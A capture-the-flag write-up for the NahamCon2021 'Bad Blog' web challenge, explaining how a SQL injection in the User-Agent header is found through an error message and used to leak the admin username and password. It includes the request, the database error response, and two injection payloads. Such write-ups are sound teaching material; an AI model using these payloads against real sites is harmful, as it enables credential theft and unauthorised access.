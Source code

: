 ```yaml
---
title: "NahamCon2021 CTF - Bad Blog"
date: 2021-03-15T11:16:53+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

web - medium

## solution

The challenge URL drops us on a page where we need to login. So, create an account, login and land on the home page of a blog.

{{< figure src="/images/nahamcon/bad_blog.png" >}}

After creating a new post, you can see who visited your blog in the profile section.

{{< figure src="/images/nahamcon/bad_blog_analytics.png" >}}

Poking around will reveal that if you tamper with your user agent string, that is what will show up in the analytics section.

{{< figure src="/images/nahamcon/bad_blog_poo.png" >}}

More fiddling will reveal that a SQL injection vulnerability lives in the `User-Agent` header, where the result of your injection will be available in the analytics section.

Request:

```text
GET /post/Test HTTP/1.1
Host: challenge.nahamcon.com:30821
User-Agent: '
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challenge.nahamcon.com:30821/post/Test
Cookie: authtoken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImZvbyJ9.iJn59ivffAYcLnrD2M9B3fFHYp9AuV-BOJl75S1k-jo
```

Response:

```text
HTTP/1.1 400 BAD REQUEST
Content-Type: text/html; charset=utf-8
Content-Length: 312

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>400 Bad Request</title>
<h1>Bad Request</h1>
<p>(sqlite3.OperationalError) unrecognized token: &quot;''');&quot;<br>[SQL: insert into visit (post_id, user_id, ua) values (5,2,''');]<br>(Background on this error at: http://sqlalche.me/e/13/e3q8)</p>
```

Easy! You can leak the admin username and password with these payloads:

- Username: `User-Agent: ' || (SELECT username from user limit 1) || '`
- Password: `User-Agent: ' || (SELECT password from user limit 1) || '`

{{< figure src="/images/nahamcon/bad_blog_creds.png" >}}

Logging in with `admin:J3H8cqMNWxH68mTj` Reveals the flag.

{{< figure src="/images/nahamcon/bad_blog_flag.png" >}}
